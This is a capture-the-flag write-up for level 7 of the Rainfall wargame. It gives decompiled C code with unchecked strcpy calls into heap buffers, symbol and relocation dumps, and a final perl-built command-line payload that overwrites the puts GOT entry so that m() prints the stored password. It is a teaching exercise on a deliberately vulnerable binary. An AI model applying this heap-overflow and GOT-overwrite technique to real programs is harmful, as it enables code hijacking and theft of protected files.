 # Level 7

## the code:

//----- (080484F4) --------------------------------------------------------
int m()
{
time_t v0; // eax

v0 = time(0);
return printf("%s - %d\n", c, v0);
}

//----- (08048521) --------------------------------------------------------
int \_\_cdecl main(int argc, const char **argv, const char **envp)
{
FILE *v3; // eax
void *v5; // [esp+18h] [ebp-8h]
void \*v6; // [esp+1Ch] [ebp-4h]

v6 = malloc(8u);
_(\_DWORD _)v6 = 1;
_((\_DWORD _)v6 + 1) = malloc(8u);
v5 = malloc(8u);
_(\_DWORD _)v5 = 2;
_((\_DWORD _)v5 + 1) = malloc(8u);
strcpy(_((char \*\*)v6 + 1), argv[1]);
strcpy(_((char \*\*)v5 + 1), argv[2]);
v3 = fopen("/home/user/level8/.pass", "r");
fgets(c, 68, v3);
puts("~~");
return 0;
}

## the goal

overwrite \*(v6+1) to put the GOT puts() address in v5+1
replace &puts() with &m()
don't work, fgets segfault before
rewrite c variable as stdout

## addresses

inside rainfall:

```sh
$ ltrace ./level7
__libc_start_main(0x8048521, 1, 0xbffff804, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

```sh
$ objdump -R ./level7

./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

on the local computer:

```sh
$ nm level7
08049940 A __bss_start
08049960 B c
08049940 b completed.6159
0804982c d __CTOR_END__
08049828 d __CTOR_LIST__
08049938 D __data_start
08049938 W data_start
08048690 t __do_global_ctors_aux
08048470 t __do_global_dtors_aux
0804993c D __dso_handle
08049834 D __DTOR_END__
08049944 b dtor_idx.6161
08049830 d __DTOR_LIST__
0804983c d _DYNAMIC
08049940 A _edata
080499b0 A _end
         U fgets@@GLIBC_2.0
080486bc T _fini
         U fopen@@GLIBC_2.1
080486d8 R _fp_hw
080484d0 t frame_dummy
08048824 r __FRAME_END__
08049908 d _GLOBAL_OFFSET_TABLE_
         w __gmon_start__
08048682 T __i686.get_pc_thunk.bx
0804836c T _init
08049828 d __init_array_end
08049828 d __init_array_start
080486dc R _IO_stdin_used
08049838 d __JCR_END__
08049838 d __JCR_LIST__
         w _Jv_RegisterClasses
08048680 T __libc_csu_fini
08048610 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
080484f4 T m
08048521 T main
         U malloc@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
08048440 T _start
         U strcpy@@GLIBC_2.0
         U time@@GLIBC_2.0
```

argv1 will be copied at 0x0804a018
argv2 will be copied at the address stored at 0x0804a028 + 4 = 0x0804a02c
puts address stored at 0x08049928
m address is 0x080484f4
offset is 0x0804a02c - 0x0804a018 = 0x14 (20)

arg 1: "A" x 20 . "\x28\x99\x04\x08"
arg 2: "\xf4\x84\x04\x08

## the hack:

```sh
$ ./level7 $(perl -e 'print "A" x 20 . "\x28\x99\x04\x08"') $(perl -e 'print"\xf4\x84\x04\x08"')
```

